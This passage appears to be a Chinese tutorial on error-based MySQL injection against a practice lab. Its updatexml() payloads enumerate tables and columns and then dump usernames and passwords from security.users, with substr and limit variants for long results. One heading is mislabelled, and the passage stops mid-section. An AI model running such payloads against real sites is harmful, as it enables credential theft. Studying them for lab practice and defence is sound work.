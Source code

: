 
### 爆破表名

```csharp
1') and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),3)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8755da76abe57f167edbc56379452bc8.png" alt="" style="max-height:176px; box-sizing:content-box;" />


### 爆破表名

```csharp
1') and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users')),3)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/20a4fca94912a5921068ae4572456569.png" alt="" style="max-height:127px; box-sizing:content-box;" />


### 爆破字段名

```csharp
1') and updatexml(1,concat(0x7e,(select group_concat(id,'-------',username,'------',password)from security.users)),3)-- +
```

但是这个时候出现了 新的情况

### 报错的长度受限制

这个时候 我们就可以使用substr 或者limit

#### substr

```csharp
1') and updatexml(1,concat(0x7e,substr((select group_concat(id,'-------',username,'------',password)from security.users),15,31)),3)-- +
```

#### limit

注意 limit 需要使用 concat() 而不是group_concat()

```csharp
1') and updatexml(1,concat(0x7e,(select concat(username,password) from security.users  limit 0,1),0x7e),1)
```

### concat()和group_concat()

concat()

